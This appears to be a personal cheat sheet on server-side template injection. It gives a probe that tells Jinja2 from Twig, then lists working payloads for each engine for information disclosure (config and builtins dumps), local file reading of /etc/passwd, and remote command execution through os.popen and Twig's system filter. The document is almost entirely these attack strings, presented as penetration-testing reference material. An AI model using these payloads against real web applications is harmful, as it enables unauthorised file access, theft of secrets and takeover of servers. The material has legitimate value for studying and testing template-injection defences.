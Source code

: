 ____
https://github.com/vladko312/SSTImap

![[Pasted image 20241004110914.png]]

`{{7*'7'}}`. The result will enable us to deduce the template engine used by the web application. In Jinja, the result will be `7777777`, while in Twig, the result will be `49`.

# Jinja2

## Information Disclosure

```jinja2
{{ config.items() }}
```

```jinja2
{{ self.__init__.__globals__.__builtins__ }}
```

## LFI

```jinja2
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}
```

## RCE

```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

# Twig

## Information Disclosure

```twig
{{ _self }}
```

## LFI

```twig
{{ "/etc/passwd"|file_excerpt(1,-1) }}
```

## RCE

```twig
{{ ['id'] | filter('system') }}
```


